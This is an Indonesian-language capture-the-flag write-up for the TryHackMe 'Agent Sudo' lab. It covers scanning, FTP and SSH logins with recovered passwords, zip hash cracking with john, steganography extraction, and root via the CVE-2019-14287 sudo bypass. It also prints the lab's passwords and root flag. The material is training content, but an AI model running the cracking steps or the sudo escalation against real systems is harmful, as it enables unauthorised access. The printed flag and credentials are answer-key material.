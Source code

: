 # Agent Sudo – TryHackMe Write-up

## 📃 Ringkasan

> Sebuah box CTF bertema intelijen rahasia, steganografi, dan privilege escalation. Tujuannya: mengumpulkan informasi rahasia dari agen, men-decode pesan tersembunyi, dan menjadi root.

---

## 🤮 Langkah 1 – Nmap Scan

```bash
nmap -sC -sV -oN agent-sudo.nmap 10.10.112.200
```

### Hasil:

* FTP (21)
* SSH (22)
* HTTP (80)

---

## 🌐 Langkah 2 – Enum Web

Pada halaman utama web:

```
Use your own codename as user-agent to access the site.
```

Ubah User-Agent ke "C":

```bash
curl -A "C" http://10.10.112.200
```

Didapat info bahwa user **chris** memiliki password lemah.

---

## 📂 Langkah 3 – Login FTP sebagai chris

```bash
ftp 10.10.112.200
Name: chris
Password: crystal
```

### File ditemukan:

* `To_agentJ.txt`
* `cutie.png`
* `cute-alien.jpg`

---

## 🧠 Langkah 4 – Analisis cutie.png (binwalk + stego)

```bash
binwalk -e --run-as=root cutie.png
```

Ditemukan file tersembunyi: `8702.zip`

### File ZIP tersebut diproteksi password:

1. Ekstrak hash:

```bash
zip2john 8702.zip > zip.hash
```

2. Jalankan john:

```bash
john zip.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

3. Dapatkan password:

```bash
john zip.hash --show
```

🔐 Password ditemukan: `alien`

---

## 📄 Langkah 5 – Ekstrak ZIP (8702.zip)

```bash
7z x 8702.zip -palien
```

Ditemukan file: `To_agentR.txt`

Isi:

```
We need to send the picture to 'QXJlYTUx' as soon as possible!
```

Base64 decode:

```bash
echo QXJlYTUx | base64 -d
```

🔎 Hasil: `Area51`

---

## 📷 Langkah 6 – Steghide cute-alien.jpg

```bash
steghide extract -sf cute-alien.jpg -p Area51
```

Hasil: `message.txt`

Isi:

```
Hi james,
Glad you find this message. Your login password is hackerrules!
```

---

## 🔐 Langkah 7 – SSH Login ke james

```bash
ssh james@10.10.112.200
Password: hackerrules
```

---

## 🚀 Langkah 8 – Reverse Image: Alien\_autospy.jpg

Reverse image search: hasil = `Alien Autopsy`

Jawaban:

```
Alien Autopsy
```

---

## 📁 Langkah 9 – Cek sudo

```bash
sudo -l
```

Hasil:

```
(ALL, !root) /bin/bash
```

Artinya: tidak bisa sudo ke root, tapi bisa ke user lain (tidak berguna karena hanya ada user james)

---

## 💥 Langkah 10 – Exploit CVE-2019-14287

```bash
sudo -u#-1 /bin/bash
```

Hasil:

```bash
whoami  # root
```

---

## 🌟 Langkah 11 – Ambil root flag

```bash
cat /root/root.txt
```

Flag:

```
b53a02f55b57d4439e3341834d70c062
```

---

## 🌝 Ringkasan Teknik

| Langkah               | Teknik                     |
| --------------------- | -------------------------- |
| Enum awal             | Nmap, User-Agent trick     |
| Akses file            | FTP login                  |
| Stego                 | Steghide, binwalk          |
| Password cracking     | zip2john + john            |
| Credential harvesting | Pesan tersembunyi          |
| Privilege Escalation  | CVE-2019-14287 sudo bypass |
| Root flag             | Manual exploit → UID 0     |

---

## 🤔 Pelajaran

* Jangan gunakan password lemah
* Zip bisa menyimpan clue tersembunyi
* Sudo harus dikonfigurasi dengan aman
* Versi sudo lama rawan exploit!

---

Selesai! 🎉
